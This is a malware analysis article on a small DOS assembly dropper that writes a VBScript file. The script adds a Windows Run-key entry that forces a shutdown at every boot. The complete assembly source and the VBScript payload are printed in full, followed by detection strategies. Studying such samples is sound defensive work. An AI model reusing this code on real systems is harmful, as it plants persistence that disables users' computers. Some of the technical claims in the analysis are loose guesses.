 
**Malware Analysis: DWARF - A Simple VBScript Dropper**

This article analyzes a piece of assembly code that acts as a simple dropper, creating a VBScript file designed to shut down the victim's computer on startup. We'll break down the code's functionality step by step, highlighting key assembly instructions and the resulting VBScript.

**1. Initial Interaction and Choice (DEBUT to TOUCHE)**

```assembly
DEBUT :        mov ah,09h          ;affiche un message
              lea dx,text1         ;avec deux proposition
              int 21h

TOUCHE:       mov ah,1            ;lecture du caractère
              int 21h
              cmp al,'C'
              je CREER_FICHIER
              cmp al,'c'
              je CREER_FICHIER     ;si 'C-c' on continue
              cmp al,'Q'
              je FIN_PROGRAMME
              cmp al,'q'
              je FIN_PROGRAMME     ;si 'Z-z' on stop
              mov dx,offset bad   ;mauvaise touche
              mov ah,9h
              int 21h
              jmp TOUCHE

```

-   **`mov ah, 09h` / `lea dx, text1` / `int 21h`**: This sequence displays a prompt to the user. `int 21h` with `ah=09h` is a DOS interrupt to print a string. `lea dx, text1` loads the effective address of the `text1` string (defined later) into the `DX` register. The string asks the user to press 'C' to continue or 'Q' to quit.
-   **`mov ah, 1` / `int 21h`**: This reads a single character from the keyboard input. `int 21h` with `ah=1` waits for a keypress and stores the ASCII value in the `AL` register.
-   **`cmp al, 'C'` / `je CREER_FICHIER` (and similar comparisons)**: These lines compare the input character (`AL`) with 'C', 'c', 'Q', and 'q'. The `je` (Jump if Equal) instruction branches to the `CREER_FICHIER` label if the input is 'C' or 'c', and to `FIN_PROGRAMME` if it's 'Q' or 'q'.
-   **`mov dx, offset bad` / `mov ah, 9h` / `int 21h` / `jmp TOUCHE`**: If the input is not 'C', 'c', 'Q', or 'q', this section displays an "invalid input" message (the `bad` string) and then jumps back to `TOUCHE` to wait for another keypress.

**2. File Creation (CREER_FICHIER)**

```assembly
CREER_FICHIER: mov ah,3Ch          ;CREE UN FICHIER
              xor cx,cx
              mov dx,offset NOM    ;ET LUI DONNE UN NOM
              int 21h

```

-   **`mov ah, 3Ch` / `xor cx, cx` / `mov dx, offset NOM` / `int 21h`**: This is the core of the file creation process. `int 21h` with `ah=3Ch` is the DOS function to create a new file.
    -   `xor cx, cx`: Sets the file attributes to normal (CX = 0).
    -   `mov dx, offset NOM`: Loads the address of the filename string (`NOM`, defined later as "c:\dwarf.vbs") into `DX`.
    -   The `int 21h` call attempts to create the file. If successful, the file handle is returned in `AX`. If it fails (e.g., due to insufficient permissions), the carry flag (CF) will be set, and `AX` will contain an error code. _This code doesn't check for errors, which is a common characteristic of simple malware._

**3. Writing to the File (ECRIRE_FICHIER)**

```assembly
ECRIRE_FICHIER: xchg ax,bx
              mov ah,40h          ;ECRIT DANS LE FICHIER
              mov cx,meslen
              mov dx,offset note
              int 21h

```

-   **`xchg ax, bx`**: This instruction swaps the contents of the `AX` and `BX` registers. The file handle (returned by the `CREER_FICHIER` section) was in `AX`, and now it's moved to `BX`. This is because `int 21h` with `ah=40h` expects the file handle in `BX`.
-   **`mov ah, 40h` / `mov cx, meslen` / `mov dx, offset note` / `int 21h`**: This writes the malicious VBScript code to the newly created file.
    -   `mov ah, 40h`: Sets up `int 21h` for writing to a file.
    -   `mov cx, meslen`: `meslen` is calculated later using `equ $-note`, determining the length (in bytes) of the data to be written.
    -   `mov dx, offset note`: Loads the address of the data to be written (starting at the `note` label) into `DX`.
    -   `int 21h`: Performs the write operation. Again, error handling is absent.

**4. Closing the File (FERMER_FICHIER)**

```assembly
FERMER_FICHIER: mov ah,3Eh          ;PUIS LE REFERME
              int 21h

```

-   **`mov ah, 3Eh` / `int 21h`**: This closes the file. `int 21h` with `ah=3Eh` closes the file whose handle is in `BX`. Good practice, but crucial for ensuring the data is flushed to disk.

**5. Directory Change (Unnecessary)**

```assembly
              mov dx,offset updir   ;CHANGEMENT DE REPERTOIRE 
              mov ah,3Bh
              int 21h

```

-   **`mov dx, offset updir` / `mov ah, 3Bh` / `int 21h`**: This attempts to change the current directory to ".." (the parent directory). `int 21h` with `ah=3Bh` is used to change the directory. _This section appears unnecessary and might be leftover code from development or an attempt to obfuscate the malware's actions._ It doesn't affect the core functionality.

**6. Displaying a Message (MESSAGE)**

```assembly
MESSAGE:      mov ah,09h          ;AFFICHE LE MESSAGE
              lea dx,msg
              int 21h

```

-   **`mov ah, 09h` / `lea dx, msg` / `int 21h`**: This displays a final message to the user, informing them that a file named "c:\dwarf.vbs" has been added. This is similar to the initial message display.

**7. Program Termination (FIN_PROGRAMME)**

```assembly
FIN_PROGRAMME : mov ah,4Ch          ;FERME LE PROGRAMME
              int 21h

```

-   **`mov ah, 4Ch` / `int 21h`**: This terminates the assembly program. `int 21h` with `ah=4Ch` is the standard DOS exit function.

**8. Data Definitions**

```assembly
text1  db 10,13,'Tape C pour continuer ou Q pour quitter : $'
bad    db 7,7,8,' ',8,24h
NOM    db 'c:\dwarf.vbs',0
updir  db '..',0
msg    db 7,7,7,10,13,'SALUT MEC !!!!'
       db 10,10,13,'UN FICHIER A ETE RAJOUTE'
       db 10,13,'IL SE NOMME C:\dwarf.vbs $'
note   db 'rem DwArF.vbs by Panda '
       db '(c) 2000'
prog   db 'Dim WSHShell',0Dh,0Ah
       db 'Set WSHShell = Wscript.CreateObject("WScript.Shell")',0Dh,0Ah
       db 'WSHShell.Regwrite "HKEY_LOCAL_MACHINE\Software\Microsoft\'
       db 'Windows\CurrentVersion\Run\DwArF", "C:\WINDOWS\RUNDLL32.EXE '
       db 'C:\Windows\system\User.exe,ExitWindows"'

meslen equ $-note

end DEBUT

```

-   **`text1`, `bad`, `msg`**: These are the strings displayed to the user. `db` defines bytes. `10` and `13` are ASCII codes for line feed and carriage return, respectively. `$` is the string terminator for `int 21h, ah=09h`. `7` is the bell character (often makes a beep). `8` is backspace. `24h` is `$` in hexadecimal.
-   **`NOM`**: This is the filename of the VBScript file to be created: "c:\dwarf.vbs". The `0` is a null terminator, required for DOS strings.
-   **`updir`**: This is the string ".." used (unnecessarily) to attempt to change the directory.
-   **`note` and `prog`**: This is the _crucial part_ - the actual VBScript code that will be written to `c:\dwarf.vbs`.
-   **`meslen equ $-note`**: This calculates the length of the VBScript code. `$` represents the current address, and `note` is the starting address of the data. The difference is the length.

**9. The Dropped VBScript (The Payload)**

Let's examine the VBScript code that gets written to `c:\dwarf.vbs`:

```vbscript
rem DwArF.vbs by Panda (c) 2000
Dim WSHShell
Set WSHShell = Wscript.CreateObject("WScript.Shell")
WSHShell.Regwrite "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\DwArF", "C:\WINDOWS\RUNDLL32.EXE C:\Windows\system\User.exe,ExitWindows"

```

-   **`rem DwArF.vbs by Panda (c) 2000`**: This is a comment.
-   **`Dim WSHShell`**: Declares a variable to hold a WScript.Shell object.
-   **`Set WSHShell = Wscript.CreateObject("WScript.Shell")`**: Creates an instance of the `WScript.Shell` object. This object provides access to various system functionalities, including the registry.
-   **`WSHShell.Regwrite ...`**: This is the core of the malicious action. It uses the `Regwrite` method to create a new registry entry:
    -   **`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\DwArF`**: This is the registry key. The `Run` key under `CurrentVersion` is a standard location for programs that should be executed automatically when Windows starts. The malware creates a new value named `DwArF` under this key.
    -   **`"C:\WINDOWS\RUNDLL32.EXE C:\Windows\system\User.exe,ExitWindows"`**: This is the value assigned to the `DwArF` entry. It specifies the command that will be executed on startup.
        -   `RUNDLL32.EXE`: A Windows utility that can be used to execute functions within DLL files.
        -   `C:\Windows\system\User.exe,ExitWindows`: This attempts to call the `ExitWindows` function within `User.exe`. This function is likely intended to shut down or restart the computer. Note: The path might need to be adjusted depending on the specific Windows version (e.g., `C:\Windows\System32`). The use of `User.exe` is interesting, as it is a less commonly used executable compared to something like `shutdown.exe`. This might be an attempt to evade basic signature-based detection.

**Summary: Impact and Detection**

The assembly code acts as a dropper. It creates a VBScript file (`dwarf.vbs`) that, when executed, adds a registry entry to force the system to shut down or restart every time it boots.

**Detection Strategies:**

1.  **Signature-Based Detection:** Antivirus software can create signatures based on the assembly code itself or the generated VBScript.
2.  **Heuristic Analysis:** Behavioral analysis can detect the creation of the VBScript and the modification of the `Run` registry key. The unusual use of `User.exe` could also be a flag.
3.  **File System Monitoring:** Monitoring for the creation of files with `.vbs` extensions in unusual locations (like the root of the C: drive) can be an indicator.
4.  **Registry Monitoring:** Monitoring changes to the `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run` key is crucial for detecting this type of persistence mechanism.
5.  **Sandboxing:** Running the assembly code in a sandboxed environment would allow safe observation of its behavior, including the creation of the VBScript and its registry modifications.

This malware, while simple, demonstrates a common technique: using a small, easily-delivered dropper to establish persistence and execute a more impactful payload. The lack of error handling and the somewhat amateurish design choices (like the unnecessary directory change) are typical of older, less sophisticated malware.

